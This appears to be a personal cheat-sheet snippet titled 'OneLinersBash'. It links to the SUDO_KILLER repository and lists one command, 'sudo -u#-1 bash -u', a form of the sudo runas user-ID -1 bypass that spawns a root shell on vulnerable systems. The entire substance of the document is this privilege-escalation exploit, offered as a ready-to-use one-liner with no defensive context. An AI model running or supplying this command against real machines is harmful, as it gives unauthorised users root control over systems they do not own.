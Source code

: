 # OneLinersBash

#SUDO_KILLER
url: https://github.com/TH3xACE/SUDO_KILLER/tree/master
$ sudo -u#-1 bash -u
